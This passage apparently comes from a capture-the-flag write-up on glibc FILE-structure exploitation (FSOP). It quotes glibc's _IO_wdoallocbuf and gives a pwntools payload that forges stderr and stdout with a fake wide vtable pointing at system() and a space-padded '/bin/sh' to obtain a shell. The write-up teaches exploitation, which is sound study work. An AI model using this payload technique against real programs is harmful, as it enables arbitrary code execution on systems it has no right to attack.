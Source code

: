 Finally, `_IO_wdoallocbuf` is called:
```c
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
...
}
```

Final restriction:
- `_flags & _IO_UNBUFFERED(0x2)` must be 0

To fulfill all the conditions, we can overwrite `stderr` and following `stdout` as below:
```py
  # Overwrite _IO_2_1_stderr_
  #  flags
  #  - & _IO_NO_WRITES(0x2): must be 0
  #  - & _IO_UNBUFFERED(0x8): must be 0
  #  To fulfill this condition, we just use spaces(0x20) before /bin/sh
  payload = b" " * 8 + b"/bin/sh\x00" # flags
  payload += p64(0x0) * int((0x90/8 - 1))
  payload += p64(0) # cvt
  payload += p64(io_stdout + 0x20) # wide_data
  payload += p64(0) * 3
  payload += p32(1)
  payload += b"\x00"*0x14
  payload += p64(io_wfile_jumps)

  ## stdout (== stderr->_wide_data)
  payload += p64(0) * 4 # becomes wide_vtable
  payload += p64(0) * 3 # read
  payload += p64(0) # write_base: must be NULL
  payload += p64(0x10) # write_ptr
  payload += p64(0x0) # write_end
  payload += p64(0x0) # buf_base
  payload += p64(system) * 4 # becomes wide_vtable->doalloc
  payload += p64(0) * 2 # state
  payload += p64(0) * int(0x70/8) # codecvt
  payload += p64(io_stdout) * 10 # wide_vtable

  create(4, 0, 0, payload)
```

We use `stdout` as a buffer for `_wide_data` (, and entries of fake vtable). In this challenge, IO is performed by `read/write` calls. So these FILE structure can be tampered. As a sidenote, `stderr` is the first entry of the chain of FILE structures, so we have to pay attention to `stdout` and `stdin` at all :).
When we call `wide_vtable.__doallocate`, which is overwritten with `system()`, RDI is `fp`, which is `stderr` in this case. So we wanna place the string `/bin/sh\x00` at the start of `stderr`. However, here is a `_flag` and it has some restrictions stated above. And the string doesn't match the condition. No worry. **We can just prefix the `/bin/sh\x00` with 8 spaces(0x20), then all conditions are fulfilled. Space is a great character for FSOP!**
